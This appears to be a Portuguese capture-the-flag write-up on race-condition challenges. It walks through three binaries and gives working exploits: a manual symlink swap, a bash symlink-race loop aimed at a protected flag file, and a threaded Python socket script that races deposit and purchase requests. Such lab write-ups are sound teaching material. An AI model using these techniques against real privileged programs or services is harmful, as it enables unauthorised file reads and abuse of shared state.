










# Race Condition - Pwn Challenge writeup

<p style="text-align: center; font-size: 2rem">Walk Binary</p>

<p>Conectamos diretamente no SSH da máquina e de cara temos acesso a 4 pastas (race  run  sprint  walk). Dentro dessas pastas a unica que temos permissão de criação é a race, onde é a mesma pasta de login do usuário.</p>

Vamos partir para análise do binário.
```
int main(int argc, char **argv, char **envp) {

    int n;
    char buf[1024];
    struct stat lstat_buf;

    if (argc != 2) {
        puts("Usage: anti_flag_reader <FILE>");
        return 1;
    }
    
    puts("Checking if 'flag' is in the provided file path...");
    int path_check = strstr(argv[1], "flag");
    puts("Checking if the file is a symlink...");
    lstat(argv[1], &lstat_buf);
    int symlink_check = (S_ISLNK(lstat_buf.st_mode));
    puts("<Press Enter to continue>");
    getchar();
    
    if (path_check || symlink_check) {
        puts("Nice try, but I refuse to give you the flag!");
        return 1;
    } else {
        puts("This file can't possibly be the flag. I'll print it out for you:\n");
        int fd = open(argv[1], 0);
        assert(fd >= 0 && "Failed to open the file");
        while((n = read(fd, buf, 1024)) > 0 && write(1, buf, n) > 0);
    }
}
```

O programa espera um arquivo como argumento e com um filtro do nome 'flag' e o nosso arquivo possui não por coincidencia o mesmo nome 'flag'. 

<p style="text-align: center; font-size: 1.6rem">Symlink race</h1>

Uma busca rápida com nosso amigo Gepeto e encontramos:



O gepeto deu uma breve explicada, agora vamos entender como funciona. O código C está executando o nosso arquivo flag com o comando ./anti_flag_reader flag passa pelos filtros e retorna "Nice try, but I refuse to give you the flag!" mas e se passarmos o caminho de outro arquivo?



Certo, então conseguimos ler arquivos de outros diretórios, mas onde isso se liga a Symlink race?

Enquanto o binário é executado com a flag de parametro, o binário mantém ele "Vivo" e faz com que não seja 100% deletado, mais a frente olharemos isso. Então segundo nosso amigo gepeto disse algo importante, Modificar recursos de forma ```não sincronizada!```

Vamos Executar o binário com o nosso arquivo de teste e deixar ele quietinho por enquanto. 



Certo, vamos entender esses 2 comandos. 

ln -s <arquivo_original> <link_simbolico> - O comando ln -s gera um link simbólico onde o primero parametro é o caminho do arquivo e o segundo é o que está sendo executado pelo nosso binário. Ou seja, na teoria removemos o arquivo ```teste``` e adicionamos uma nova base pra ele já que ele não foi removido. 



Então, quando apertamos enter ele puxa o arquivo da base /home/walk/flag ```Para leitura``` e /home/race/teste como link simbolico e finalmente capturamos a flag.

<p style="text-align: center; font-size: 2rem">Run Binary</h1>

Aqui temos um binário parecido com o anterior porém sem o time que tivemos anteriormente pra conseguirmos modificar o arquivo. Então novamente, vamos tentar ler arquivos de outras pastas



Mas agora não conseguiremos deixar o binário executando e ir manualmente então automatizamos essa tarefa com um script básico bash. A idéia e fazer ele executar infinitamente a criação, o link simbólico e depois remover o arquivo.

```
#!/usr/bin/bash/env bash

while true; do
    touch "test"
    ln -s -f /home/run/flag test

    rm test
done
```

Isso vai fazer a execução ser assincrona como o gepeto disse, porém na imensa maioria das vezes não vamos conseguir de primeira por conta do loop. Vamos para a POC



Análisando mais um pouco do script bash acima, conseguimos ver que o arquivo criado tem o nome de test, será o arquivo que vamos usar dentro do binário.



Então temos a cena perfeita um script rodando em loop e um binário sendo executado, ambos não sincronos. Passamos o arquivo que o script bash gerou algumas vezes até dar o time perfeito e capturarmos a flag.


<p style="text-align: center; font-size: 2rem">Sprint Binary</p>

Aqui temos uma tarefa complexa que vou dividir em mais partes, coloquei nesse repositório o script do binário.

```
void *run_thread(void *ptr) {                                                                                                                                                                                                               
                                                                                                                                                                                                                                            
    long addr;                                                                                                                                                                                                                              
    char *buffer;                                                                                                                                                                                                                           
    int buffer_len = 1024;                                                                                                                                                                                                                  
    char balance[512];                                                                                                                                                                                                                      
    int balance_length;                                                                                                                                                                                                                     
    connection_t *conn;                                                                                                                                                                                                                     
                                                                                                                                                                                                                                            
    if (!ptr) pthread_exit(0);                                                                                                                                                                                                              
                                                                                                                                                                                                                                            
    conn = (connection_t *)ptr;                                                                                                                                                                                                             
    addr = (long)((struct sockaddr_in *) &conn->address)->sin_addr.s_addr;                                                                                                                                                                  
    buffer = malloc(buffer_len + 1);                                                                                                                                                                                                        
    buffer[buffer_len] = 0;                                                                                                                                                                                                                 
                                                                                                                                                                                                                                            
    read(conn->sock, buffer, buffer_len);                                                                                                                                                                                                   
                                                                                                                                                                                                                                            
    if (strstr(buffer, "deposit")) {
        money += 10000;
    } else if (strstr(buffer, "withdraw")) {
        money -= 10000;
    } else if (strstr(buffer, "purchase flag"))- {
        if (money >= 15000) {
            sendfile(conn->sock, open("/home/sprint/flag", O_RDONLY), 0, 128);
            money -= 15000;
        } else {
            write(conn->sock, "Sorry, you don't have enough money to purchase the flag\n", 56);
        }
    }

    balance_length = snprintf(balance, 1024, "Current balance: %d\n", money);
    write(conn->sock, balance, balance_length);
    
    usleep(1);
    money = 0;
    
    close(conn->sock);
    free(buffer);
    free(conn);
    
    pthread_exit(0);
}
```

Até o momento é essa função que nos importa. Fazendo uma breve code review, conseguimos ver 3 comandos que são aceitos, "Deposit", "withdraw", "purchase flag". 

Deposit adiciona 10000 de money, withdraw remove 10000 e purchase flag verifica se existe 15000 de money e manda o arquivo para o client. Certo então o client deve estar na função main certo? ERRADO

```
int main(int argc, char **argv) {

    int sock = -1;
    int port = 1337;
    struct sockaddr_in address;
    connection_t *connection;
    pthread_t thread;

    sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &(int){1}, sizeof(int));

    address.sin_family = AF_INET;
    address.sin_addr.s_addr = INADDR_ANY;
    address.sin_port = htons(port);

    if (bind(sock, (struct sockaddr *) &address, sizeof(struct sockaddr_in)) < 0) {
        fprintf(stderr, "Cannot bind to port %d\n", port);
        return -1;
    }
    
    if (listen(sock, 32) < 0) {
        fprintf(stderr, "Cannot listen on port %d\n", port);
        return -1;
    }

    fprintf(stdout, "Listening for connections on port %d...\n", port);
    fprintf(stdout, "Accepted commands: \"deposit\", \"withdraw\", \"purchase flag\"\n");

    while (1) {
        connection = (connection_t *) malloc(sizeof(connection_t));
        connection->sock = accept(sock, &connection->address, &connection->addr_len);
        if (connection->sock <= 0) {
            free(connection);
        } else {
            fprintf(stdout, "Connection received! Creating a new handler thread...\n");
            pthread_create(&thread, 0, run_thread, (void *) connection);
            pthread_detach(thread);
        }
    }
    
    return 0;
}
```

Então a função main da origem a um servidor na porta 1337 que aceita os comandos. Então a nossa função é criar um client que acessa esse servidor, envia 2 mensagens e recebe a flag.

```
from pwn import *

host = 'localhost'
port = 1337

conn = remote(host, port)

sock = conn.sock

sock.sendall(b"deposit\n")

response = sock.recv(1024)
print(response.decode())

sock.sendall(b"purchase flag\n")

with open("flag", "wb") as f:
    while True:
        data = sock.recv(1024)
        if not data:
            break
        f.write(data)

print("Arquivo 'flag' recebido com sucesso!")

conn.close()
```

Então codamos um exploit base usando a biblioteca pwntools do python. O código é bem simples, enviamos em bytes um pedido de deposito, depois enviamos o pedido de compra e recebemos a flag.



O nosso script python tem 2 erros. Como se trata de Race condition precisamos de todas ações em paralelo, isso nos obriga a usar Threads do python, o segundo erro é que estamos tendo uma mensagem dizendo que o pwntools está tendo problemas então precisamos usar socket para se conectar ao servidor. Mais uma vez solicitaremos o auxilio do nosso amigo Gepeto






Primeiro obstaculo, como estamos trabalhando com threads e é um race condition, precisamos instanciar socket em todas as threads e colocar em loop:

```
import socket
import threading

server_address = ("127.0.0.1", 1337)

def deposit():
    while True:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(server_address)
        sock.sendall(b"deposit")
        sock.close()

def purchase_flag():
    response = b""
    while b"THM" not in response:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(server_address)
        sock.sendall(b"purchase flag")
        response = sock.recv(1024)
        sock.close()
    print(response.decode())

def main():
    deposit_thread = threading.Thread(target=deposit)
    purchase_flag_thread = threading.Thread(target=purchase_flag)
    deposit_thread.start()
    purchase_flag_thread.start()

    deposit_thread.join()
    purchase_flag_thread.join()

if __name__ == "__main__":
    main()
```

O script final é dividido 2 threads secundárias e uma instancia primária. Note que instanciamos o socket enviamos e depois fechamos. A thread purchase_flag tem um filtro que busca por 3 bytes "THM", isso filtra a busca e retorna o valor exato da flag.

Até breve Hackers!


